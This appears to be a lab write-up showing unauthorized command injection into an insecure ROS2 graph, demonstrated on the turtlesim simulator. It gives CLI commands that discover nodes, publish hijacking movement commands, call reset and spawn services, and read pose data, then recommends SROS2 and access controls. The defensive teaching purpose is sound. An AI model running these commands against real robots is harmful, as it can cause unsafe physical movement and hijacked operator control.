




# Unauthorized Topic Injection in ROS2

Demonstrate that an unauthorized ROS2 process can discover the ROS graph and publish movement commands to a control topic.

## Threat Model

The attacker has local shell access or network access to the same ROS2 domain as the robot.

The robot/simulator is running without ROS2 security policy enforcement.

## Discovering the ROS2 Graph

Commands:

```bash
ros2 node list
ros2 topic list
ros2 node info /turtlesim
ros2 topic info /turtle1/cmd_vel
```

Attacker can list active nodes and topics using ROS2 CLI tools.

Discovered control topic:

- `/turtle1/cmd_vel`
- Type: `geometry_msgs/msg/Twist`
- Subscriber: `/turtlesim`

This means a compatible publisher can send movement commands to the simulator.

## Inspecting the Message Type

The attacker can inspect topic type and message schema:

```bash
ros2 topic info /turtle1/cmd_vel
```

Result:

```
Type: geometry_msgs/msg/Twist
Publisher count: 1
Subscription count: 1
```

```bash
ros2 interface show geometry_msgs/msg/Twist
```

Result:

```
# This expresses velocity in free space broken into its linear and angular parts.

Vector3  linear
	float64 x
	float64 y
	float64 z
Vector3  angular
	float64 x
	float64 y
	float64 z
```

```bash
ros2 interface show geometry_msgs/msg/Vector3
```

```
# This represents a vector in free space.

# This is semantically different than a point.
# A vector is always anchored at the origin.
# When a transform is applied to a vector, only the rotational component is applied.

float64 x
float64 y
float64 z
```

Testing a one-shot command:

```bash
ros2 topic pub --once /turtle1/cmd_vel geometry_msgs/msg/Twist \
"{linear: {x: 5.0, y: 0.0, z: 0.0}, angular: {x: 0.0, y: 0.0, z: 0.0}}"
```



Testing rotation only:

```bash
ros2 topic pub --once /turtle1/cmd_vel geometry_msgs/msg/Twist \
"{linear: {x: 0.0, y: 0.0, z: 0.0}, angular: {x: 0.0, y: 0.0, z: 3.0}}"
```



Testing the stop command:

```bash
ros2 topic pub --once /turtle1/cmd_vel geometry_msgs/msg/Twist \
"{linear: {x: 0.0, y: 0.0, z: 0.0}, angular: {x: 0.0, y: 0.0, z: 0.0}}"
```



The turtle moved without keyboard input from the legitimate teleop node.

Security impact: An unauthorized node can inject movement commands if it can access the ROS2 graph.

Now repeatedly publish malicious movement:

```bash
ros2 topic pub /turtle1/cmd_vel geometry_msgs/msg/Twist \
"{linear: {x: 0.0, y: 0.0, z: 0.0}, angular: {x: 0.0, y: 0.0, z: 5.0}}"
```


The turtle may rotate even while the user tries to control it.

This happens because both `/teleop_turtle` and the attacker are publishing to the same topic.
The subscriber (`/turtlesim`) receives and executes messages from both publishers simultaneously.

Check publisher count:

```bash
ros2 topic info /turtle1/cmd_vel
```

Now return:

```
Type: geometry_msgs/msg/Twist
Publisher count: 2
Subscription count: 1
```

Publisher count is now 2. 

The simulator accepted commands from both the legitimate teleop node and the attacker node.
This can cause control conflict or command hijacking.

## Unauthorized Service Calls

Interesting services to target:

- `/reset`
- `/clear`
- `/kill`
- `/spawn`
- `/turtle1/set_pen`

Call reset:

```bash
ros2 service call /reset std_srvs/srv/Empty "{}"
```

The turtle resets to default position.

Spawn a new turtle:

```bash
ros2 service call /spawn turtlesim/srv/Spawn \
"{x: 2.0, y: 2.0, theta: 0.0, name: 'evil_turtle'}"
```




Now, list the topics again:

```bash
ros2 topic list
```

Observed some new topics:

- `/evil_turtle/cmd_vel`
- `/evil_turtle/color_sensor`
- `/evil_turtle/pose`


## Data Exposure

```bash
ros2 topic echo /turtle1/pose
```

```
x: 5.544444561004639
y: 5.544444561004639
theta: 0.0
linear_velocity: 0.0
angular_velocity: 0.0
---
x: 5.544444561004639
y: 5.544444561004639
theta: 0.0
linear_velocity: 0.0
angular_velocity: 0.0
---
x: 5.544444561004639
y: 5.544444561004639
theta: 0.0
linear_velocity: 0.0
angular_velocity: 0.0
---
```

In a real robot, unauthorized topic publishing could lead to:

- Movement command injection
- Operator control conflicts
- Unsafe robot behavior
- Sensor/state data leakage
- Unauthorized service/action calls

## Root Cause

The ROS2 graph was reachable without authentication, authorization, or topic-level access control.

## Recommendations

- Enable SROS2/DDS-Security.
- Restrict topic/service/action permissions.
- Isolate ROS2 communication networks.
- Avoid exposing ROS2 DDS traffic to untrusted networks.
- Monitor unexpected publishers on critical topics.
- Validate the command source and apply safety constraints before acting on commands.
